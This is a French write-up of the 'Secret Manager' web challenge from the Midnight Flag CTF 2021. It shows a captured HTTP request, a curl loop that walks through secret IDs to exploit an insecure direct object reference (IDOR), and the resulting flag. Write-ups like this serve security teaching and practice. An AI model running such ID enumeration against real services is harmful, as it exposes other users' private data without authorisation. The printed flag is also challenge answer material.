 # Description
L'entreprise PHPBoomer a développé une autre application que Winventory, en améliorant sa sécurité.
Secret Manager vous permet de stocker vos secrets sans que personne puisse y accéder.
Connaissant leur passé, on sait que la sécurité n'est pas maître chez eux.. Vous pouvez tester l'application?
Accès au challenge : http://secret.ctf.midnightflag.fr/

# Write UP
Pour se connecter à se challenge, il suffit de fournir un pseudo.
On créé donc un pseudo, et on commence à regarder l'application, elle ressemble beaucoup à Winventory, normal, puisque c'est la même entreprise qui l'a développé.
<!-- ![image](https://github.com/MidnightFlag/CTF2021/blob/main/Web/Secret_Manager/images/mainpage.png) -->

On voit que l'on peut juste ajouter des secrets et voir ceux que l'on possède pour potentiellement les modifier / supprimer.
Si l'on analyse la requête qui part quand on clique sur "modify" on observe ceci:
```
http: // Host:/IDOR/?page=manageOneSecret
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0 Accept: text/html, application/xhtml+xml, application/xml;q=0.9, image/webp,*/*;q=0.8 Accept-Language: fr, fr-FR; q=0.8, en-US; q=0.5, en; q=0.3 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 4 Origin: http: // DNT: 1 Connection: keep-aliv Referer: http: // /IDOR/?page=manageSecrets Cookie: PHPSESSID=h8om8c3g9k8a4o13sq6iqqp1bj Upgrade-Insecure-Requests: 1 144= post: http/1.1 200 Date: Sun, 27 Dec 2020 20:36:36 GMT Server: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.4.1 X-Powered-By: PHP/7.4.1 Expires: Thu, 19 Nov 1981 08:52:00 GMT Cache-Control: no-store, no-cache, must-revalidate Pragma: no-cache Content-Length: 6056 Keep-Alive: timeout=5, max=99 Connection: Keep-Alive Content-Type: text/html; charset=UTF-8
```
<!-- ![image](https://github.com/MidnightFlag/CTF2021/blob/main/Web/Secret_Manager/images/mainpage.png) -->

On pourrait tenter des injection SQL dans le champ passé, mais cela n'est pas efficace, en effet, côté serveur, cela est bien géré.
On peut donc penser à une injection de type IDOR, pour pouvoir accéder aux secrets de tout le monde, la payload est donc la suivante:
`$ for i in `seq 1 200`; do curl -X POST --data "$i=" "http://localhost/IDOR/?page=manageOneSecret" --silent ; done`
<!-- ![image](https://github.com/MidnightFlag/CTF2021/blob/main/Web/Secret_Manager/images/payload.png) -->

Cela marche! On réussi à accéder aux secrets de tout le monde. Le secret de l'admin se trouve à l'id 142:
curl -X POST --data "142=" "http://localhost/IDOR/?page=manageOneSecret" --silent
<!-- ![image](https://github.com/MidnightFlag/CTF2021/blob/main/Web/Secret_Manager/images/flag.png) -->
<input class="input--style=5" type="text" value="MCTF{IDOR_1nj3t10n_t0_st341_s3cr3ts}" name="content" required>``

# Flag
`MCTF{IDOR_1nj3t10n_t0_st341_s3cr3ts}`